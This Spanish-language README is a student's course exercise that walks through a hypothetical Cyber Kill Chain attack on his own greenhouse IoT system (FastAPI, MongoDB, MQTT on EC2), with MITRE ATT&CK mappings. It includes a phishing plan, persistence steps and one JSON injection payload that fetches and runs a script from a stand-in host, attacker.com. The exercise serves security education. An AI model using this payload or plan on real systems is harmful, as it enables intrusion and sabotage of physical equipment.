

# Ejercicio Cyber Kill Chain – Ataque

# Alumno

**Lic. Martín Lacheski**  
📡 Especialización en Internet de las Cosas (IoT)  
🏛️ Universidad de Buenos Aires (UBA)

---

## 🔍 **Descripción**

Este ejercicio presenta un ataque basado en la metodología **Cyber Kill Chain**, enfocado en comprometer la instancia de **EC2** que aloja el backend (FastAPI), frontend (React) y la base de datos (MongoDB) del sistema de monitoreo y gestión remota del clima en invernaderos. El ataque parte de la obtención de **credenciales válidas** mediante **ingeniería social (phishing)** y se basa en la **explotación de endpoints del backend** para ejecutar inyecciones, manipular datos, mantener persistencia y **afectar el funcionamiento de los sensores y actuadores** conectados al sistema.

El repositorio con el código del proyecto es: https://github.com/martinlacheski/EnviroSenseIoT

La siguiente figura ilustra la estructura del trabajo y sus respectivas capas.



---

## 🔧 **Sistema Víctima**

El sistema de monitoreo y gestión remota del clima en invernaderos está compuesto por:

- **Dispositivos IoT**: sensores y actuadores conectados a una red Wi-Fi en la Facultad de Ciencias Forestales.
- **Broker MQTT**: AWS IoT Core, que gestiona la comunicación entre los dispositivos IoT y el backend.
- **Backend**: FastAPI, que procesa las solicitudes y gestiona la base de datos.
- **Frontend**: React, que permite a los usuarios monitorear y controlar el sistema de forma remota.
- **Base de datos**: MongoDB, que almacena los datos de los sensores y actuadores.
- **Infraestructura**: Todo el sistema está alojado en una instancia de EC2 en AWS.

---

## 🎯 **Objetivo del Ataque**

El objetivo del ataque es comprometer el sistema IoT mediante técnicas de ingeniería social y explotación de vulnerabilidades en la API REST del backend y así manipular los datos de los actuadores y controlar el sistema de riego, iluminación y ventilación para dañar la producción de cultivos en el invernadero.

---

## 💥 **Resolución del Ataque: Cyber Kill Chain**

### 1 - **Reconnaissance (Reconocimiento)**

**Objetivo:**

Identificar información sensible del sistema y del personal vinculado al proyecto, recopilando datos públicos sobre la infraestructura, endpoints y usuarios, con el fin de diseñar una estrategia de ataque dirigida y personalizada.

**Técnicas utilizadas:**

- _T1592.002_ – Gather Victim Identity Information: Email Addresses  
  https://attack.mitre.org/techniques/T1592/002/

- _T1593_ – Search Open Websites/Domains  
  https://attack.mitre.org/techniques/T1593/

**Pasos realizados:**

- Reviso la información del proyecto en GitHub.
- Identifico direcciones de correo y perfiles de personas de la institución vinculadas al proyecto a través del sitio de la facultad, páginas web y LinkedIn.
- Encuentro documentación en el README y código que revela los tópicos MQTT y endpoints expuestos del backend.
- Verifico que existe un endpoint /mqtt/publish y que utiliza autenticación con JWT.

---

### 2 - **Weaponization (Armado del Ataque)**

**Objetivo:**

Desarrollar herramientas específicas de ataque, incluyendo un sitio web falso y correos de phishing, utilizando la información recolectada para engañar al usuario y capturar sus credenciales de acceso al sistema.

**Técnicas utilizadas:**

- _T1566.001_ – Phishing: Spearphishing Attachment  
  https://attack.mitre.org/techniques/T1566/001/

- _T1203_ – Exploitation for Client Execution  
  https://attack.mitre.org/techniques/T1203/

**Pasos realizados:**

- Implemento un **sitio** idéntico a la página de inicio de sesión del sistema.
- Redacto un **correo electrónico** dirigido a correos institucionales simulando ser del área de soporte del sistema EnviroSense, solicitando que acceda al enlace al **sitio desarrollado** para actualizar sus credenciales.

---

### 3 - **Delivery (Entrega del Ataque)**

**Objetivo:**

Distribuir el ataque mediante un correo electrónico personalizado que dirija al usuario hacia el sitio falso, facilitando la captura de credenciales válidas para comprometer el backend del sistema.

**Técnicas utilizadas:**

- _T1566.002_ – Phishing: Spearphishing Link  
  https://attack.mitre.org/techniques/T1566/002/

**Pasos realizados:**

- Envío el **correo electrónico** con asunto "Alerta de seguridad - Soporte Técnico EnviroSense" con un enlace al **sitio desarrollado**.
- El usuario ingresa sus credenciales, que son capturadas en el **sitio desarrollado**.

---

### 4 - **Exploitation (Ejecución del Ataque)**

**Objetivo:**

Aprovechar las credenciales obtenidas para autenticarse en el sistema, identificar vulnerabilidades en los endpoints del backend y ejecutar código malicioso para obtener control sobre la infraestructura.

**Técnicas utilizadas:**

- _T1078_ – Valid Accounts  
  https://attack.mitre.org/techniques/T1078/

- _T1059.004_ – Command and Scripting Interpreter: Unix Shell  
  https://attack.mitre.org/techniques/T1059/004/

**Pasos realizados:**

- Con las credenciales obtenidas, me autentico en el backend del sistema a través del endpoint /auth/login, recibiendo un token JWT válido.
- Accedo a los endpoints del backend con las credenciales obtenidas y exploro las funcionalidades disponibles y busco posibles vulnerabilidades.
- Identifico que el endpoint /mqtt/publish podría recibir código en formato JSON en el mensaje que se envía.​
- Envío un **payload malicioso** que aprovecha la vulnerabilidad en el endpoint, permitiendo la ejecución de código arbitrario en el servidor.

Ejemplo de **payload malicioso**:

`{"topic": "actuators/sub", "message": "'; import os; os.system('curl -O http://attacker.com/malicious.sh && chmod +x malicious.sh && ./malicious.sh'); #"}`

---

### 5 - **Installation (Persistencia en el Sistema)**

**Objetivo:**

Instalar mecanismos de persistencia en el servidor comprometido mediante tareas programadas, servicios maliciosos y shells web, asegurando el acceso continuo al sistema aún después de reinicios o intentos de restauración.

**Técnicas utilizadas:**

- _T1053.003_ – Scheduled Task/Job: Cron  
  https://attack.mitre.org/techniques/T1053/003/

- _T1543.003_ – Create or Modify System Process: Systemd Service  
  https://attack.mitre.org/techniques/T1543/003/

- _T1505.003_ – Server Software Component: Web Shell  
  https://attack.mitre.org/techniques/T1505/003/

**Pasos realizados:**

- El **payload malicioso enviado** se descarga y ejecuta un script en el backend, estableciendo una puerta trasera para acceso remoto.
- Configuro una **tarea programada (cron)** que reestablece el acceso en caso de reinicio de la instancia EC2.
- Creo un **servicio malicioso en systemd** que mantiene activa la conexión con el servidor.
- Creo un endpoint que permita una **web shell** para acceder al servidor EC2 y ejecutar comandos.

---

### 6 - **Command & Control (C2)**

**Objetivo:**

Establecer y mantener un canal de comunicación seguro entre el atacante y el servidor comprometido, permitiendo la ejecución remota de comandos, la transferencia de herramientas y el control total de la infraestructura.

**Técnicas utilizadas:**

- _T1572_ – Protocol Tunneling  
  https://attack.mitre.org/techniques/T1572/

- _T1105_ – Ingress Tool Transfer  
  https://attack.mitre.org/techniques/T1105/

**Pasos realizados:**

- Configuro un **canal de comunicación cifrado** utilizando **SSH** para mantener el acceso a la instancia de EC2.
- A través del canal SSH, transfiero herramientas como Metasploit y scripts de automatización que me permiten continuar con la explotación y el reconocimiento.
- Establezco un canal de control mediante HTTP POST hacia un servidor remoto.

---

### 7 - **Actions on Objectives (Acción sobre el Objetivo)**

**Objetivo:**

Ejecutar acciones que saboteen el funcionamiento general del invernadero, comprometan la integridad y disponibilidad del sistema, incluyendo la manipulación de datos de sensores y la desactivación de actuadores.

**Técnicas utilizadas:**

- _T1531_ – Account Access Removal  
  https://attack.mitre.org/techniques/T1531/

- _T1565_ – Data Manipulation  
  https://attack.mitre.org/techniques/T1565/

**Pasos realizados:**

- **Manipulo los datos de los sensores** para que el sistema tome decisiones incorrectas, como regar en exceso o no ventilar cuando sea necesario.
- **Desactivo los actuadores** de riego y ventilación, provocando un aumento de la temperatura y la falta de nutrientes, y con ello arruinar el cultivo.
- **Interrumpo la comunicación MQTT** dejando el sistema inoperable y sin retroalimentación para los usuarios.

---

## 🔀 **Diagrama de Flujos del Ataque**

```
1. [Objetivo] → [Phishing a operador del sistema]
        ⬇
2. [Captura de credenciales y obtención de JWT]
        ⬇
3. [Exploración de endpoints vulnerables del backend]
        ⬇
4. [Inyección de scripts y manipulación de datos]
        ⬇
5. [Persistencia: nuevos usuarios + backdoors en frontend]
        ⬇
6. [Canal C2 vía HTTP: automatización de comandos maliciosos]
        ⬇
7. [Acciones destructivas: sabotaje de sensores y actuadores]
```

---
